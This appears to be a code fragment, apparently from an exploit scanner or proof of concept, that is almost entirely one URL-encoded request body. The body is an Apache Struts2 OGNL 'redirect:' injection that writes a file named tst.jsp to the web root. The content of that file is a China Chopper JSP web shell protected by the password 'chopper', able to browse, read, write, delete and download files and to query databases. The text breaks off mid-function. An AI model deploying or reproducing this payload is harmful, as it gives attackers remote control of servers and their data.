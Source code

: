  u'rawbody':
u"redirect:${%23req%3d%23context.get('com.opensymphony.xwork2.dispatcher.HttpServletRequest'),%23res%3d%23context.get('com.opensymphony.xwork2.dispatcher.HttpServletResponse'),%23res.getWriter().println(%22okokok%22),%23res.getWriter().flush(),%23res.getWriter().close(),new+java.io.BufferedWriter(new+java.io.FileWriter(%23req.getRealPath(%22/%22)%2b%22tst.jsp%22)).append(%23req.getParameter(%22shell%22)).close()}&shell=%3C%25%40page%20import%3D%22java.io.*%2Cjava.util.*%2Cjava.net.*%2Cjava.sql.*%2Cjava.text.*%22%25%3E%0D%0A%3C%25!%0D%0AString%20Pwd%3D%22chopper%22%3B%0D%0AString%20EC(String%20s%2CString%20c)throws%20Exception%7Breturn%20s%3B%7D%2F%2Fnew%20String(s.getBytes(%22ISO-8859-1%22)%2Cc)%3B%7D%0D%0AConnection%20GC(String%20s)throws%20Exception%7BString%5B%5D%20x%3Ds.trim().split(%22%5Cr%5Cn%22)%3BClass.forName(x%5B0%5D.trim()).newInstance()%3B%0D%0AConnection%20c%3DDriverManager.getConnection(x%5B1%5D.trim())%3Bif(x.length%3E2)%7Bc.setCatalog(x%5B2%5D.trim())%3B%7Dreturn%20c%3B%7D%0D%0Avoid%20AA(StringBuffer%20sb)throws%20Exception%7BFile%20r%5B%5D%3DFile.listRoots()%3Bfor(int%20i%3D0%3Bi%3Cr.length%3Bi%2B%2B)%7Bsb.append(r%5Bi%5D.toString().substring(0%2C2))%3B%7D%7D%0D%0Avoid%20BB(String%20s%2CStringBuffer%20sb)throws%20Exception%7BFile%20oF%3Dnew%20File(s)%2Cl%5B%5D%3DoF.listFiles()%3BString%20sT%2C%20sQ%2CsF%3D%22%22%3Bjava.util.Date%20dt%3B%0D%0ASimpleDateFormat%20fm%3Dnew%20SimpleDateFormat(%22yyyy-MM-dd%20HH%3Amm%3Ass%22)%3Bfor(int%20i%3D0%3Bi%3Cl.length%3Bi%2B%2B)%7Bdt%3Dnew%20java.util.Date(l%5Bi%5D.lastModified())%3B%0D%0AsT%3Dfm.format(dt)%3BsQ%3Dl%5Bi%5D.canRead()%3F%22R%22%3A%22%22%3BsQ%2B%3Dl%5Bi%5D.canWrite()%3F%22%20W%22%3A%22%22%3Bif(l%5Bi%5D.isDirectory())%7Bsb.append(l%5Bi%5D.getName()%2B%22%2F%5Ct%22%2BsT%2B%22%5Ct%22%2Bl%5Bi%5D.length()%2B%22%5Ct%22%2BsQ%2B%22%5Cn%22)%3B%7D%0D%0Aelse%7BsF%2B%3Dl%5Bi%5D.getName()%2B%22%5Ct%22%2BsT%2B%22%5Ct%22%2Bl%5Bi%5D.length()%2B%22%5Ct%22%2BsQ%2B%22%5Cn%22%3B%7D%7Dsb.append(sF)%3B%7D%0D%0Avoid%20EE(String%20s)throws%20Exception%7BFile%20f%3Dnew%20File(s)%3Bif(f.isDirectory())%7BFile%20x%5B%5D%3Df.listFiles()%3B%0D%0Afor(int%20k%3D0%3Bk%3Cx.length%3Bk%2B%2B)%7Bif(!x%5Bk%5D.delete())%7BEE(x%5Bk%5D.getPath())%3B%7D%7D%7Df.delete()%3B%7D%0D%0Avoid%20FF(String%20s%2CHttpServletResponse%20r)throws%20Exception%7Bint%20n%3Bbyte%5B%5D%20b%3Dnew%20byte%5B512%5D%3Br.reset()%3B%0D%0AServletOutputStream%20os%3Dr.getOutputStream()%3BBufferedInputStream%20is%3Dnew%20BufferedInputStream(new%20FileInputStream(s))%3B%0D%0Aos.write((%22-%3E%22%2B%22%7C%22).getBytes()%2C0%2C3)%3Bwhile((n%3Dis.read(b%2C0%2C512))!%3D-1)%7Bos.write(b%2C0%2Cn)%3B%7Dos.write((%22%7C%22%2B%22%3C-%22).getBytes()%2C0%2C3)%3Bos.close()%3Bis.close()%3B%7D%0D%0Avoid%20GG(String%20s%2C%20String%20d)throws%20Exception%7BString%20h%3D%220123456789ABCDEF%22%3Bint%20n%3BFile%20f%3Dnew%20File(s)%3Bf.createNewFile()%3B%0D%0AFileOutputStream%20os%3Dnew%20FileOutputStream(f)%3Bfor(int%20i%3D0%3Bi%3Cd.length()%3Bi%2B%3D2)%0D%0A%7Bos.write((h.indexOf(d.charAt(i))%3C%3C4%7Ch.indexOf(d.charAt(i%2B1))))%3B%7Dos.close()%3B%7D%0D%0Avoid%20HH(String%20s%2CString%20d)throws%20Exception%7BFile%20sf%3Dnew%20File(s)%2Cdf%3Dnew%20File(d)%3Bif(sf.isDirectory())%7Bif(!df.exists())%7Bdf.mkdir()%3B%7DFile%20z%5B%5D%3Dsf.listFiles()%3B%0D%0Afor(int%20j%3D0%3Bj%3Cz.length%3Bj%2B%2B)%7BHH(s%2B%22%2F%22%2Bz%5Bj%5D.getName()%2Cd%2B%22%2F%22%2Bz%5Bj%5D.getName())%3B%7D%0D%0A%7Delse%7BFileInputStream%20is%3Dnew%20FileInputStream(sf)%3BFileOutputStream%20os%3Dnew%20FileOutputStream(df)%3B%0D%0Aint%20n%3Bbyte%5B%5D%20b%3Dnew%20byte%5B512%5D%3Bwhile((n%3Dis.read(b%2C0%2C512))!%3D-1)%7Bos.write(b%2C0%2Cn)%3B%7Dis.close()%3Bos.close()%3B%7D%7D%0D%0Avoid%20II(String%20s%2CString%20d)throws%20Exception%7BFile%20sf%3Dnew%20File(s)%2Cdf%3Dnew%20File(d)%3Bsf.renameTo(df)%3B%7Dvoid%20JJ(String%20s)throws%20Exception%7BFile%20f%3Dnew%20File(s)%3Bf.mkdir()%3B%7D%0D%0Avoid%20KK(String%20s%2CString%20t)throws%20Exception%7BFile%20f%3Dnew%20File(s)%3BSimpleDateFormat%20fm%3Dnew%20SimpleDateFormat(%22yyyy-MM-dd%20HH%3Amm%3Ass%22)%3B%0D%0Ajava.util.Date%20dt%3Dfm.parse(t)%3Bf.setLastModified(dt.getTime())%3B%7D%0D%0Avoid%20LL(String%20s%2C%20String%20d)throws%20Exception%7BURL%20u%3Dnew%20URL(s)%3Bint%20n%3BFileOutputStream%20os%3Dnew%20FileOutputStream(d)%3B%0D%0AHttpURLConnection%20h%3D(HttpURLConnection)u.openConnection()%3BInputStream%20is%3Dh.getInputStream()%3Bbyte%5B%5D%20b%3Dnew%20byte%5B512%5D%3B%0D%0Awhile((n%3Dis.read(b%2C0%2C512))!%3D-1)%7Bos.write(b%2C0%2Cn)%3B%7Dos.close()%3Bis.close()%3Bh.disconnect()%3B%7D%0D%0Avoid%20MM(InputStream%20is%2C%20StringBuffer%20sb)throws%20Exception%7BString%20l%3BBufferedReader%20br%3Dnew%20BufferedReader(new%20InputStreamReader(is))%3B%0D%0Awhile((l%3Dbr.readLine())!%3Dnull)%7Bsb.append(l%2B%22%5Cr%5Cn%22)%3B%7D%7D%0D%0Avoid%20NN(String%20s%2CStringBuffer%20sb)throws%20Exception%7BConnection%20c%3DGC(s)%3BResultSet%20r%3Dc.getMetaData().getCatalogs()%3B%0D%0Awhile(r.next())%7Bsb.append(r.getString(1)%2B%22%5Ct%22)%3B%7Dr.close()%3Bc.close()%3B%7D%0D%0Avoid%20OO(String%20s%2CStringBuffer%20sb)throws%20Exception%7BConnection%20c%3DGC(s)%3BString%5B%5D%20t%3D%7B%22TABLE%22%7D%3BResultSet%20r%3Dc.getMetaData().getTables%20(null%2Cnull%2C%22%25%22%2Ct)%3B%0D%0Awhile(r.next())%7Bsb.append(r.getString(%22TABLE_NAME%22)%2B%22%5Ct%22)%3B%7Dr.close()%3Bc.close()%3B%7D%0D%0Avoid%20PP(String%20s%2CStringBuffer%20sb)throws%20Exception%7BString%5B%5D%20x%3Ds.trim().split(%22%5Cr%5Cn%22)%3BConnection%20c%3DGC(s)%3B%0D%0AStatement%20m%3Dc.createStatement(1005%2C1007)%3BResultSet%20r%3Dm.executeQuery(%22select%20*%20from%20%22%2Bx%5B3%5D)%3BResultSetMetaData%20d%3Dr.getMetaData()%3B%0D%0Afor(int%20i%3D1%3Bi%3C%3Dd.getColumnCount()%3Bi%2B%2B)%7Bsb.append(d.getColumnName(i)%2B%22%20(%22%2Bd.getColumnTypeName(i)%2B%22)%5Ct%22)%3B%7Dr.close()%3Bm.close()%3Bc.close()%3B%7D%0D%0Avoid%20QQ(String%20cs%2CString%20s%2CString%20q%2CStri